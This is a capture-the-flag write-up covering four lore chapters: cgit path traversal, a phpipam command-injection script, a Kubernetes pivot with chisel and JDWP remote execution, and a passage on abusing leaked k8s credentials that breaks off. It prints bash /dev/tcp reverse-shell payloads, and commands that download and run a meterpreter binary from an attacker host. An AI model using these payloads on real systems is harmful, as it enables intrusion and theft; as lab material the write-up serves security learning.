# Lore

## Description



The description shown above is identical for all chapters. The scoring was set as follows:
- [Chapter 1: Travel](#chapter-1-travel) - 3 points
- [Chapter 2: Origins](#chapter-2-origins) - 4 points
- [Chapter 3: Bounded](#chapter-3-bounded) - 5 points
- [Chapter 4: Uncle](#chapter-4-uncle) - 6 points

## Intro

The introductory lore webpage hosted at `intro.lore.tcc` contains links to all the chapters along with a story text quoted below. For each chapter, there was a single card with a short poem and a link to the main chapter webpage.

> In the sprawling metropolis of Neon City, where towering skyscrapers pierced the heavens and an endless sea of light washed over shadowy alleyways, Jayce "Specter" Voss found solace in the enclave of their dimly lit, cluttered apartment. The city never slept, but Jayce's mind needed rest after a grueling shift of defending on corporate databanks, fighting off digital sentinels, and rerouting cloud resources to those in desperate need.
> 
> Exhausted, Jayce plopped onto the tattered old futon in the corner of the room. The ambient hum of electronic devices provided a lullaby, and within moments, the cyber-savant drifted into a deep slumber.
> 
> In the depths of the dreamscape, a new world unfolded, vivid and electrifying. Jayce found themselves in the boots of a different persona, an enigmatic bounty hunter named Kael. The narrative, rich with ancient legends and futuristic tech, began to play out.
> 
> 
> The dreamscape morphed into a glossy, bustling spaceport teeming with aliens of every shape and color. Kael adjusted the sleek armored coat that wrapped around their frame, fingers brushing the hilt of a plasma blade clipped to their belt. The comms device in Kael’s ear buzzed as a holographic display activated on their wrist.
> 
> "Target in sight," spoke Zara, Kael's partner and the best damn pilot in the quadrant. Her tone was as calm as it was confident.
> 
> Kael's amber eyes scanned the crowd, zeroing in on a shady figure edging toward the exit. Four radicals, remnants of a long-dead empire, whispered of a lost alien artifact—a relic said to contain immense power—somewhere on the desert planet of Xylora. The little they knew indicted this figure, known as Lian, as the lead to its whereabouts.
> 
> Kael moved smoothly, weaving through throngs of traders and off-world travelers. "I got him," Kael murmured into the comms, activating a cloaking protocol to blend into the masses. With expert stealth, Kael shadowed Lian, heart pounding with the thrill of the hunt.
> 
> The target headed into a secluded corner of the spaceport’s underbelly, where neon signs cast an eerie glow upon damp, graffiti-laden walls. Lian paused, glancing around nervously. Kael took the opportunity to launch an electromagnetic pulse, freezing the environment in a web of static and blackouts.
> 
> "...Who are you?" Lian stammered, caught in the interference, his eyes wide with fear.
> 
> "Just a traveler seeking answers," Kael replied, voice modulated to a metallic rasp. "The artifact. Where is it?"
> 
> Lian swallowed hard, beads of sweat trickling down his face. "I-I don't have it! Only a map. Coordinates to its resting place!"
> 
> Kael's patience wore thin. "Show me."
> 
> Shaking, Lian produced a data chip. As Kael retrieved it, Zara’s voice crackled through the static. "Got company, Kael. Time to move."
> 
> "Understood," Kael responded, disabling the pulse and activating a smoke screen. With swift precision, Kael bound Lian and made their escape through a hidden exit, navigating the labyrinthine backstreets toward Zara’s gleaming transport ship.
> 
> Within moments, they were airborne, the city's lights flickering below. Kael slotted the data chip into the console. A holographic map illuminated, revealing the path to Xylora. This was it—the beginning of an epic quest.
> 
> "Set a course for Xylora," Kael instructed, casting a determined glance at Zara.
> 
> The sleek starship rocketed towards the crew's destiny. Kael could almost feel the weight of the artifact and the unimaginable power it promised. The hunt wasn't just a job; it was a lifeline, a defining journey in the chaotic expanse of the universe.
> 
> As the dream narrative reached its crescendo, a distant alarm blared, pulling Jayce back to consciousness. Eyes fluttering open, Jayce felt the phantom of Kael's resolve lingering in their chest.
> 
> "That was something else," Jayce murmured, pushing aside the blanket, stretching, and returning to the console. Neon City awaited, but the echoes of the dream propelled them with renewed vigor. Jayce might not be a bounty hunter, but in the digital warfare of their reality, they too were on a quest, decrypting destinies one exabyte at a time.

## Chapter 1: Travel


The lore begins with the first chapter which links to an application called [cgit](https://git.zx2c4.com/cgit/), version `1.2`. This version is vulnerable to a path traversal [vulnerability](https://www.exploit-db.com/exploits/45148).



Trying out the exploit with the URL adjusted to the app at hand works right away.



Using this vulnerability on the `/proc/self/environ` file allows for exfiltrating the environment variables which also contain the flag.

 

### Flag

`FLAG{FiqE-rPQL-pUV4-daQt}`

## Chapter 2: Origins
 

In the second chapter, the link leads to a web application [phpipam](https://phpipam.net/), version `1.2` for which numerous vulnerabilities can be found online. Looking into using one of the already-found vulnerabilities or finding a new one would be a proper solution which is a path I didn't take.



Using the path traversal exploit from the first chapter, the configuration of the `cgit` application, stored at `/etc/cgitrc` can be found. This file reveals that the repository data is stored at the path `/data`.



Leaking the git config files for both of the repositories reveals that the `sam-operator` repository has the `origin` remote set to FLAB's GitLab URL along with a valid OAuth2 token.



Since I am unsure if this solution is intended (spoiler alert: it was not) and the token can be public, it is redacted. Simply changing the URL to a repo named `pimpam.git` allows to clone the challenge repository.



The repository contains an exploit script, `exploit.py`, shown below. This code exploits an unauthenticated command injection in the `subnet-update-icmp.php` file.

```python
#!/usr/bin/env python3

import requests


URL = "http://localhost:8003"


def main():
    """main"""

    payload = "-1`bash -c 'bash -i >& /dev/tcp/10.101.2.9/65000 0>&1'`"
    resp = requests.post(f"{URL}/app/subnets/scan/subnet-update-icmp.php", data={"subnetId": payload})
    print(resp.headers)
    print(resp.content)


if __name__ == '__main__':
    main()
```

Changing the URL as well as the reverse shell IP and port allows to use the exploit.

```python
import requests

URL = "http://pimpam.lore.tcc/"
LHOST = '10.200.0.15'
LPORT = 65000

def main():
    payload = f"-1`bash -c 'bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1'`"
    resp = requests.post(f"{URL}/app/subnets/scan/subnet-update-icmp.php", data={"subnetId": payload})
    print(resp.headers)
    print(resp.content)

if __name__ == '__main__':
    main()
```

Then, the only thing left is setting up a reverse shell listener. For example, `exploit/multi/handler` in metasploit). Running the listener and the exploit above leads to shell access on the `pimpam` server.



Once again, the flag can be found in an environment variable `FLAG`.



### Flag

`FLAG{V51j-9ETA-Swya-8cOR}`

## Chapter 3: Bounded


The website for Chapter 3 at `jgames.lore.tcc` presents a JS-based tic-tac-toe game which on its own does not seem to have any interesting attack surface to be exploited. The only open ports are 80 and 443 and looking for hidden directories, directory listings, etc. did not yield anything interesting.



The environment variables, e.g. `KUBERNETES_PORT`, in Chapter 2, among other things, revealed that the server is part of a Kubernetes (k8s) environment.

Using the existing shell access from the previous chapter, it is possible to upload a statically-linked `nmap` binary and scan the rest of the k8s environment. Since the `nc` binary is not present on the server, the bash's `/dev/tcp` redirections can be used.

First, set up a listener on the attacker's machine, which will send the binary once a connection is established.

```
$ cat nmap | nc -lvp 1234
```

Then, on the victim `pimpam` server, run `cat` with the appropriate redirections containing attacker machine's IP address and listener port.

```
$ cat </dev/tcp/10.200.0.13/1234 >nmap
```

The nmap binary can then be used to scan the internal IP range of k8s revealing IPs which are up along with their internal hostnames.



The important bit to notice here is that the `jgames` host has `-debug` suffix in its hostname, suggesting that something more could be exposed to the internal k8s network than through the "public" hostname `jgames.lore.tcc`. This proves to be the case and except for the internal HTTP port at 8080, the port 5005 is also open.



This port is used as a debug port for JDWP (Java Debug Wire Protocol) for remote debugging of Java apps. To gain remote code execution using this protocol, [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier) can be used.

At this point, though, the access to the internal network is only possible through the reverse shell established on the `pimpam` server. To access the internal network from the attacker machine as well, the tool to use is [chisel](https://github.com/jpillora/chisel). Fortunately, it is already present on the server, so there's no need to upload it.

First, set up the chisel server on the attacker machine so that it listens for an incoming connection from the client.

```
$ chisel server --reverse --socks5 -p 80
```

Then, the client is run on the victim server with the attacker machine's IP as the parameter.

```
$ chisel client 10.200.0.13 R:socks
```

The two commands above establish a SOCKS proxy from the attacker's machine on port 1080 allowing to access any IP and port as if the connections were coming from the `pimpam` server.

The final step for this to work is adding the following line in `/etc/proxychains.conf`.

```
socks5  127.0.0.1 1080
```

Now, it is possible to access the debug port 5005 of the `jgames-debug` host from the attacker machine using `proxychains`. As mentioned above, the `jdwp-shellifier` script can be used to execute shell commands through that port.

To gain shell access to the server, `metasploit` can be used once again. First, `msfvenom` to generate the payload binary, as shown below.



Then, a simple Python HTTP server allows the victim server to download the prepared payload.



And as the final prerequisite before running the exploit, a reverse shell listener needs to be set up in metasploit with the respective options matching the attacker machine's IP and port as well as the payload type.



Finally, chaining the three commands below causes the server to download the payload binary, set up the required execute permission and run the payload. The incoming connection from the payload is already captured in the screenshot above.

```bash
$ export JGAMES_IP=192.168.73.99
$ export MYIP=10.200.0.13 
$ proxychains python jdwp-shellifier.py -t $JGAMES_IP -p 5005 --break-on 'java.lang.String.indexOf' -c "wget $MYIP:8000/a -O /tmp/a"
$ proxychains python jdwp-shellifier.py -t $JGAMES_IP -p 5005 --break-on 'java.lang.String.indexOf' -c 'chmod +x /tmp/a'
$ proxychains python jdwp-shellifier.py -t $JGAMES_IP -p 5005 --break-on 'java.lang.String.indexOf' -c '/tmp/a'
```

Once the meterpreter session is successfully established, the `tomcat` user is compromised.



The flag is found in the environment variables.



### Flag

`FLAG{ijBw-pfxY-Scgo-GJKO}`

## Chapter 4: Uncle


For Chapter 4, the link leads to a simple Flask application called SAM, shown below. Source code for this app can be found in a code repository hosted at http://cgit.lore.tcc/cgit.cgi/sam-operator/ within the `cgit` app discussed in the first chapter.



The flag is once again saved in an environment variable as well as passed into the app's config. The two following snippets are taken from the file `sam-operator/web/samweb/app.py`.



On submission of the main form, the application creates a `ConfigMap` in k8s, named `request-TXID`, where `TXID` is a randomly generated 16 bytes in hex.



The `/status` page then shows the ConfigMap's parameters, i.e. the chosen name, quota and the generated TXID.



Along with the Flask app container, there's also a container based on the `shell-operator` docker image to which the file `sam-operator/hooks/00-hook.py` is added during the build process. The hook configuration, i.e. for which events the hooks should be triggered, as well as the code which handles the incoming events, is stored in this file. This specific hook runs whenever a config map is added or deleted. For the purpose of solving this challenge, only the `Added` event is important. The code handling this event is shown below.



Once the processing in the `process_one` function is done, the k8s configuration is altered according to the `UPDATE_TEMPLATE` YAML shown below. In particular, the previously created config map is altered and a `Secret` is created.



This newly created Secret is also shown on the `/status` page's second line.



This is on par with the `status.html` template, specifically the element with ID `project_secret`.



The most important thing to notice here is the following snippet. 
 


This code specifies that if the Secret object contains a field called `debug`, the app's session as well as the config will be printed. The config is where the flag is stored. Managing to create the `debug` field in the Secret should therefore be the goal here.

To alter the Secret, one needs k8s credentials. Fortunately, this is exactly what can be found when lurking around a bit more on the pwned `jgames` server. In the `/mnt` directory, a file with k8s credentials for the user `jacob` can be found.



Download it.



The credential file contains all needed info to interact with k8s cluster, including the server IP, client key, etc.



Checking the creds' permissions reveals that it allows for creating and deleting the k8s ConfigMaps based on which the Flask app alters the existing ConfigMaps and creates the Secrets.



Looking closer at how the ConfigMap is created shows that the name and quota parameters are stored in the `annotations` field.



One more look at the hook code which processes the ConfigMaps further reveals that it does not use the `sam-operator/project_name` annotation anywhere in the code. On the other hand, the `sam-operator/project_quota` is used and passed into the `UPDATE_TEMPLATE`.

